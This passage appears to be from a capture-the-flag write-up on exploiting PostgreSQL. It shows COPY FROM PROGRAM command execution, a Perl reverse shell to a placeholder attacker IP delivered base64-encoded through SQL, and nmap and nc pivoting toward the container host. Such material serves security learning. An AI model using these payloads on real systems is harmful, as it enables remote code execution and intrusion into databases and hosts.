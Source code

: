 ```SQL
CREATE TABLE cmd(output text);
COPY cmd FROM PROGRAM 'id'; -- make sure you're using single-quotes
SELECT * FROM cmd;
```

![aaf75e0c2721cafa1bd2892c61bedc59.png](aaf75e0c2721cafa1bd2892c61bedc59.png){: w="400" .center}

- Just to let you know, python is not on the target at all but perl is
- Here is a usefull perl reverse shell payload which you replace with the 'id' above:

```perl
use Socket;$i="<attacker ip>";$p=<attacker prt>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};
```

```SQL
-- I base64-encoded the above payload to avoid escaping every single-quote
-- Before encoding it I placed the payload like this: perl -e '<payload>'
-- The final payload/query is this:
COPY cmd FROM PROGRAM 'echo <base64_payload> | base64 -d | bash';
```

![31d706b75212b3f492d9623c759f25d9.png](31d706b75212b3f492d9623c759f25d9.png){: w="500" .center}

### Pivoting / Container escape

After remembering that the `nmap` was on the box for some reason, I decied to use it and find other online hosts on the subnet

```bash
nmap -sn -PE 172.17.0.0/16 -T4 # Host discovery
```

![4eb021f78ecc4461369c888a0ee6b2d5.png](4eb021f78ecc4461369c888a0ee6b2d5.png){: w="600" .center}

- Here we find the host `172.17.0.1`
- From the domain name I suspect that this is the host
- Let's scan it and find it's open ports

```bash
nmap -sS -Pn -v -T4 -A 172.17.0.1 # Port and service scan
```

- After seeing the port scan results and connecting to the FPT and seeing the same directory and files we saw on the host, my suspisions were confirmed
- We see that the port **4444** is open but we didn't see this port on our initial scan of the host
- That is because the port is only accessible localy (127.0.0.1:4444) and not (0.0.0.0:4444)  
    ![2e265c99d99a9333a9607ce429e18475.png](2e265c99d99a9333a9607ce429e18475.png){: w="400" .center}
- Let's use the available `nc` on the container to see what is running on that port

```bash
nc 172.17.0.1 4444
```

![e6e5e9c1def328b87c130496b0a35db2.png](e6e5e9c1def328b87c130496b0a35db2.png){: w="300" .center}

